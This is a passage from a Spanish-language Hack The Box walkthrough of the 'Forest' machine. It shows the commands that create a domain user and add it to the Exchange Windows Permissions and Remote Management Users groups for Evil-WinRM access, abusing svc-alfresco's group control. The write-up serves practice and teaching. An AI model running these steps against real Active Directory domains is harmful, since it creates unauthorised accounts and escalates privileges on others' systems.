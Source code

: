 ```bash
net user nombreDeUsuario contraseña /add /domain
```

![26](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/26.png){:class="blog-image" onclick="expandImage(this)"}

Lo siguiente que haremos será añadir el usuario que acabamos de crear al grupo _Exchange Windows Permissions_, aprovechando que `svc-alfresco` tiene control total sobre este grupo:

```powershell
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members "nombreDeUsuario"
```

También vamos a añadir este usuario al grupo _Remote Management Users_ para que pueda conectarse a través de `Evil-WinRM`:

```powershell
Add-ADGroupMember -Identity "Remote Management Users" -Members "nombreDeUsuario"
```

![27](https://raw.githubusercontent.com/MateoNitro550/MateoNitro550.github.io/main/assets/2024-08-19-Forest-Hack-The-Box/27.png){:class="blog-image" onclick="expandImage(this)"}
